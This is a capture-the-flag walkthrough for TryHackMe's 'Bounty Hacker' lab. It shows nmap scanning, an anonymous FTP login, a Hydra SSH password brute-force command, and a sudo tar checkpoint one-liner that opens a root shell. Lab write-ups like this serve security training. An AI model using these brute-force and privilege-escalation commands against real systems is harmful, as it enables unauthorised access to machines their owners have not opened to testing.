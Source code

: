 # This is a walkthrough for tryhackme's Bounty Hacker room.
URL = https://tryhackme.com/room/cowboyhacker

# Enumeration:-

Lets run quick nmap scan.
```bash
sudo nmap <ip>
```
This returned 3 open ports.
port      |service
----------|----------
21        |FTP
22        |SSH
80        |Web server

Let's enumerate ftp port first.
Connect to it. Type,
```bash
ftp <ip>
```
Login using anonymous name.
Now, let's view files using ls command.
There are two files named as locks.txt and task.txt.
Get them to your pc and see whats inside.
First one has a username and other has list of words which is a password list for bruteforcing.

# Gaining access:-

Since we have username and password list, let's do a bruteforcing attack using Hydra.
Hydra is a tool we are going to use to do bruteforcing.

Type:-
```bash
hydra -l <username> -P <password_list> -t 1 <ip> ssh
```

Now, we know the password.
Let's login over ssh.
Type:-
```bash
ssh <username>@<ip>
```
And enter the password you got.

# Privilege Escaltion:-

Type sudo -l and see that we can run tar app as a root.
Let's go to gtfobins and get the sudo exploit for tar.
If you can't find it, here type:-
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
Once you execute above command, you'll become a root user.

Congrats, now get the flags.
